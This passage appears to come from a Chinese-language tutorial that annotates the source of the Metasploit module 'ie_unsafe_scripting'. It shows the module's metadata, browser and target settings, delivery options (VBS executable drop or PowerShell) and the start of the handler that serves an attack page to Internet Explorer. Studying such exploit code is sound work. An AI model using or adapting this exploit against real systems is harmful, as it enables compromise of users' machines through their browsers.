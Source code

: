 ```
      'Author'                =>
        [
          'natron',
          'Ben Campbell' # PSH and remove ADODB.Stream
        ],
        'References'          =>
        [
          [ 'URL', 'http://support.microsoft.com/kb/182569' ],
          [ 'URL', 'http://blog.invisibledenizen.org/2009/01/ieunsafescripting-metasploit-module.html' ],
          [ 'URL', 'http://support.microsoft.com/kb/870669']
        ],
        'DisclosureDate'      => 'Sep 20 2010',
        'Platform'            => 'win',
        
        # 浏览器的信息描述
        'BrowserRequirements' => {
          source:          'script',
          os_name:         OperatingSystems::Match::WINDOWS,
          ua_name:         HttpClients::IE,
          vuln_test:       VULN_CHECK_JS,
          vuln_test_error: 'WScript.Shell or Scripting.FileSystemObject not allowed by browser.'
        },
        'Arch'                => ARCH_X86,

        # 攻击目标为 Windows x86/x64 操作系统 
        'Targets'             =>
          [
            [ 'Windows x86/x64', {} ]
          ],
        
        # 默认选项设置
        'DefaultOptions'      =>
          {
            'HTTP::compression' => 'gzip'
          },
        'DefaultTarget'  => 0
      ))
 
    # 注册选项，存储相关的注册函数
    register_options(
        [
           OptBool.new('ALLOWPROMPT', [true, 'Allow exploit to ignore the protected mode prompt', false]),
           OptEnum.new('TECHNIQUE', [true, 'Delivery technique (VBS Exe Drop or PSH CMD)', 'VBS', ['VBS','Powershell']])
        ], self.class
    )
  end
```
紧接着上面的 Ruby 源码，这部分为 `ie_unsafe_scripting ` 的中间部分源码：
```
  # 监听攻击请求的 on_request_exploit 函数
  # 在生成特定的链接之后，需要进行监听等待目标靶机的 IE 浏览器访问生成页面
  def on_request_exploit(cli, request, browser)
    if has_protected_mode_prompt?(browser)
      print_warning("This target possibly has Protected Mode, exploit aborted.")
      send_not_found(cli)
      return
    end

    # 构建目标靶机访问的攻击页面
    var_shellobj = rand_text_alpha(rand(5)+5)
```